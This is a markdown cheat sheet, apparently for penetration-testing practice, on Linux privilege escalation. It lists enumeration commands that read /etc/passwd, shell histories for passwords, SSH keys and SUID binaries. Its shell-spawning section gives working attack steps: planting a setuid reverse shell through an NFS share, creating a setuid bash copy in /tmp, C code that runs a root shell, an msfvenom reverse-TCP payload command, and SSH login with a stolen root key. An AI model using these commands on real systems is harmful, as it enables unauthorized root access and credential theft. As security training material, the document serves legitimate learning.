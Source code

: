 # Basic Enumeration Commands
## Users and Groups 
- `whoami` , `id` 
- `cat /etc/passwd`
- `hostname`
- `sudo -l`

##  OS/Arch
- `cat /etc/issue` 
- `uname -a`

## Processes/Applications
- `ps aux` or `ps aux | grep "^root"`
- `dpkg -l`
- `rpm -qa` 

## Programs/Services
- `{program} --version` or `{program} -v`
- `dpkg -l | grep {program}` or `rpm -qa | grep {program}`

## Enumerating files
- `find / -writable -type d 2>/dev/null` 
- `find /etc -maxdepth 1 -readable -type f`
- `find /etc -maxdepth 1 -writable -type f`
- `find / -type f \( -iname "*.conf" -or -iname "*.config" \)  -writable  -exec ls -lthr "{}" 2>/dev/null  \;`
- `ls -la ~/.ssh` or `/.ssh`
- checking for passwords in history 
    - `cat /home/user/*history`
        - includes bash_history, mysql_history, nanohistory, in a user's home dir
- binaries with irregular timestamps
    - `for i in /usr/sbin /usr/bin /sbin /bin /snap/bin; do ls -la --time-style=full $i | grep -v '0000\|->' ; done`
    - exclude /local paths because it's not uncommon for users to create binaries in those directories. non-local directories are supposed to be managed by the system package manager.
    - exclude sym links because normal for those timestamps to have non-zero seconds. Packages installed with the system's package manager should have 0's for the seconds in the timestamp.
- `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
- look for missing shared object files of a SUID/SGID program
    - `strace /path/to/SUID/file 2>&1 | grep -iE "open|access|no such file"`
## Enumerating Scheduled Tasks
- `ls -lah /etc/cron*`
- `cat /etc/crontab` (system)
- `ls -lah /var/spool/cron` or `/var/spool/cron/crontabs` (user)

## Enumerating Network File Systems
- `cat /etc/exports` (on NFS server)
- `showmount -e {target}` 
    - run on local machine, if you want to mount to NFS from it. Target is the NFS server
- `nmap -sV -script=nfs-showmount {target}`
    - essentially does the same thing as the above showmount command
### exploit a NFS server
 `mount -o rw,vers=2 {target}:{share} {local-dir}`
    - place a malicious file such as a msfvenom reverse shell in {local-dir} and use chmod +xs if exploiting root

# Spawning Shells
- duplicate /bin/bash
    - use this method when you have command execution as root (i.e through a vulnerable service) but want a shell
    - `cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash` 
    - `./tmp/rootbash -p`
- C code
    - compile and execute: `gcc -o {name} {filename.c} && ./{name}`
```c
int main() {
setuid(0);
system("/bin/bash -p");
}
```
- msfvenom
    - `msfvenom -p linux/x86/shell_reverse_tcp LHOST={IP} LPORT={PORT} -f elf > shell.elf`

# Other
- check to see if root can ssh
    - `grep PermitRootLogin /etc/ssh/sshd_config`
    - if a private key is found, copy key to kali and ssh to server: `ssh -i root_key root@{ip-address}`
- identify what commands a SUID/SGID program is running
    - `strings /path/to/SUID-program`
    - `strace -v -f -e execve /path/to/SUID-program 2>&1`
    